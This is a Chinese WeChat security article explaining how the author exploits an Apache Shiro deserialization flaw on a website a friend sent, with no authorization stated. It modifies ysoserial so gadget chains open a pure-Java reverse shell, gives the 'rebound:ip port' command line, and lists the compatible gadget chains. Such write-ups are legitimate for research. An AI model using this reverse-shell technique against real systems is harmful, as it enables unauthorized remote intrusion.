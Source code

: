 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/8f80Fezs86DD9R1iRqLhMg)

这是 **酒仙桥六号部队** 的第 **106** 篇文章。

全文共计 1809 个字，预计阅读时长 6 分钟。

**背景**

某天闲着无聊，小伙伴发来一个某网站，说只能执行命令，不能反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesm3uiaxcHmzlAmOKmy9YacgIv3xvUSXk50TshiaibRMSRHLBiaYPJ12aVibIw/640?wx_fmt=jpeg)

**测试**

对着目标站点一顿测试。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmMamA8I3HxO5hwu8uCTS6qlvqo42e1DXLQrW4QBsbib21pd2mHLXJibxw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmFWqQzZvK3ibUb7uo0icTteHn9nN7gIhaOB8xBKEyR9JNNqRicCP6FVDFQ/640?wx_fmt=jpeg)

发现确实存在 shiro 反序列化，并且存在可以利用的 gadget。

**利用**

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmcAwCfl8HXUHAqUQG573Ctlh6CFlFAXgFBpAQFO13hricC9iadj8uYyMQ/640?wx_fmt=jpeg)

发现确实可以执行命令，但是我们执行反弹的时候。  

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmbpuHq2XQQ35ayAr72pHCpXnPJd0j3SdWsDc0tiamg5oIzfKV582vmSg/640?wx_fmt=jpeg)

反弹不回来，emmm。

查看各种系命令以及分析。

发现是一个精简的 Linux，经常用于 docker 环境的搭建。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmU07aa73P6dduau91EgliaQewQibDmJ0veAMAItbtVwnl2P7ibH3jOSEvQ/640?wx_fmt=jpeg)

并没有 bash 环境。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmyk2Msicf8aL2a0GM12pHcCUM2zpr7V6Cta5yJQmaw2jdnk36IiaItsmg/640?wx_fmt=jpeg)

使用 sh 命令反弹结果一样，之后尝试了各种反弹的方法，一言难尽。

所以我们需要一种新的反弹方法，利用 java 直接创建一个 socket 反弹。

**ysoserial**

ysoserial 是一款在 Github 开源的知名 java 反序列化利用工具，里面集合了各种 java 反序列化 payload。

源码下载地址：

https://codeload.github.com/frohoff/ysoserial/zip/master

在很多 java 类的反序列化攻击场景中会利用到该工具。

例如：apache shiro 反序列化，会使用 ysoserial 生成反序列化语句，再使用 key 加密，发送攻击 payload。

如下 python 脚本，就是利用 ysoserial 生成反序列化语句，再用 key 加密生成 cookie。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmVZov1Bh6T6iaYcadEibL4aoxPW2VYdfCt5ia3OB6M8RsoMO4M51AibAjYg/640?wx_fmt=jpeg)

**目的**

各种各样的反弹 shell 注入 bash、sh、perl、nc、python 等等，都比较依赖目标系统的环境和操作系统类型等等，如果可以直接利用 java 创建一个 socket 反弹 shell 则可以无需关心这些环境直接反弹 shell。

**ysoserial 分析**

在执行 ysoserial 的时候一般使用的命令是 java -cp ysoserial.jar  / 某个 payload/ / 命令 /

打开源码分析对应的 payload 类执行过程，如 CommonsCollections2。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmaCibMKrsuf1iapBkWgd9foNlXianPzf1OyiaGHptJDjfGhIw6sIDQGmD1w/640?wx_fmt=jpeg)

在执行该类的时候，运行 payloadrunner 类的 run 方法，来执行本类的 class 文件，再加上接收的参数，跟入 payloadrunner 类。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesm7ic8ogQ4xYWvDzAYfPcz3aGI0teJS9VMjzGciaOhUQqw4icbSW3gjz9lA/640?wx_fmt=jpeg)

这里会调用 payload 中的 getObject 方法传入要执行的命令，命令是接收的输入或者是 getDefaultTestCmd()，也就是说我们如果不输入命令，他会执行以下默认命令。

```
Windows:calc

MacOS:calculator

Linux:gnome-calculator\\kclac
```

如果输入了命令会执行自定义命令，接下来会执行 getObject 方法 () 来生成 payload，跟入对应类的 getObject 方法。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesm9DuAA6kMIGeaP7kiaDVklAW1O2CCYkgoggx3WnbspWjaR6r8nCHhlbA/640?wx_fmt=jpeg)

getObject 方法中，调用 Gadgets 类中的 createTemplatesImpl 方法生成临时的 java 字节码文件，跟入对应的方法。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmFt3xE3xgibicgR3hEVffKfuZicMgYficZ0mnF1UkqDB5DkaILvTaMZoM0w/640?wx_fmt=jpeg)

**ysoserial 改造**

可以看到作者在命令获取处已经留下了注释。

待做: 也可以做一些有趣的事情，比如注入一个纯 JavaRev/BindShell 来绕过幼稚的保护。

```
TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
```

一般情况我们在 ysoserial 后面写的命令调用的是 java.lang.Runtime.getRuntime().exec() 方法来执行命令，写死了，此处我们可以进行改造。

在原来的代码基础上写成：

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmyAd7hODvrBotGZ0Pe5gKVWjnQKqEGDIgWnMsB8raIHIq7zvZpoicFicQ/640?wx_fmt=jpeg)

这样我们再重新打包 ysoserial 文件再执行命令时使用如下格式。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "rebound:ip port"
```

可以直接获得一个反弹 shell。

**生成 payload 利用**

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmDnfPiafYuqY5VphMGWdb9HmBCs7dSISC2PI2bWAWNvZ0uDCmOXNOgVg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmV2ANfaCUHdGD51PE3l7wC6orKJPic6LQ9buDw7oK95riaX4KEphY2eGg/640?wx_fmt=jpeg)

发送。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmmymnwFAqqTaNCPE8XC7fpmXT4zxTkFR93DFTClQHhjrfm1G5oUxRfA/640?wx_fmt=jpeg)

Bingo，得到一个反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s5448GzS2Fqrm9DKsA9jkesmsYzulcHPRB0YN76AGtSSeR58gIVFWoUV9gx6GSMzmckTqlX6vhtf4g/640?wx_fmt=jpeg)

**ysoserial 改造总结**

由于不是所有的 payload 在构造时都调用了 Gadgets.createTemplatesImpl, 所以只有以下几种适用于以上修改。

```
CommonsBeanutils1

CommonsCollections2

CommonsCollections3

CommonsCollections4

Hibernate1

JavassistWeld1

JBossInterceptors1

Jdk7u21

JSON1

ROME

Spring1

Spring2

Vaadin1
```

此方法不依赖于目标操作系统和组件，可以直接利用 java 创建反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCib3lXZ8VOn2rZTucMwvh4zy1ILxSAqsCmou2iaVOcctFp6hibwLC721K8g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)